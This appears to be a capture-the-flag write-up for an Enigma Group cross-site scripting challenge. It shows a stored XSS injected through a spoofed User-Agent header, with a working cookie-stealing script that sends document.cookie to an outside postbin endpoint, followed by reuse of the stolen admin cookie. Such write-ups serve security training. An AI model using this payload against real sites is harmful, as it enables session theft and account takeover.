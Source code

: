 # [Basic 41](http://challenges.enigmagroup.org/basics/xss/2/)

So we just get a permission error where it displays our IP address and User Agent.

So knowing that this is a Cross Site Scripting challenge, we are trying to inject javascript 
somewhere on the page. What things that are displayed on this page can we control?

Well, we can spoof our user agent. Can we throw a script tag in there?

Well if we just throw an `alert()` it just gets printed on the screen.

What if it's a Stored XSS? If you see the message we get, it says our attempts have been "logged".

And it's in bold. So there's a hint. If we can inject a script that is run when the admin views the 
log. We could steal his cookies.

So I set up a throwaway endpoint using [postbin](https://postb.in)

Then I inject a little cookie stealing script. I change the User-Agent header to:

`<script>document.location='https://postb.in/1573138196601-6217692235950?c='+document.cookie</script>`

And voila! We get a message that says it worked. And we check our cookie stealer and we got it!

Now we can just open our console and run `document.cookie="admin=d02be8"`

And refresh the page and we pass!
